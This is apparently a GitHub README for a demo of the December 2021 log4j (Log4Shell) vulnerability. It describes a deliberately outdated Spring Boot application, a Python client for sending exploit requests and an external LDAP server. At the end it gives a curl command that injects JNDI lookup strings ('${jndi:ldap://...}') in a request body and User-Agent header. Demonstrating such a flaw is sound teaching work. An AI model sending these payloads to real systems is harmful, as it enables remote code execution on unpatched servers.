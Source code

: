 This repository contains a demo of the log4j vulnerability that got large attention in december 2021.

The demo consists of three different parts:<br>
The first part is a Spring Boot application. This application is based on an older version of Spring Boot and an older version of log4j.<br>
The second part is a simple client written in Python. This client can be used to make REST calls to exploit the vulnerability.<br>
The third part is an LDAP server. It is not included in this repository. Instead you can find it [here](https://github.com/rakutentech/jndi-ldap-test-server)

# Building and running the Spring Boot application locally
Simply run `mvn clean install` and start it then either in IntelliJ or by running `java -jar target/<name>.jar`

# Running the application in Docker
Alternatively, the application can run in a Docker container. Simply run `docker-compose up --build` from the project root.<br>
When running in Docker, there is even a simple Grafana board available at http://localhost:3000.

# Running the Python client
The Python client is based on version 3.9. Just run `python3 <filename.py>` from the `client` folder.



how to configure openldap

how to start openldap
sudo /usr/libexec/slapd -d3

ldapsearch -H ldap://localhost:389/test -x


curl command
curl -v -X POST http://localhost:8080/post -d '${jndi:ldap://my-domain:389/localhost}' -H 'User-Agent: ${jndi:ldap://localhost:389}'
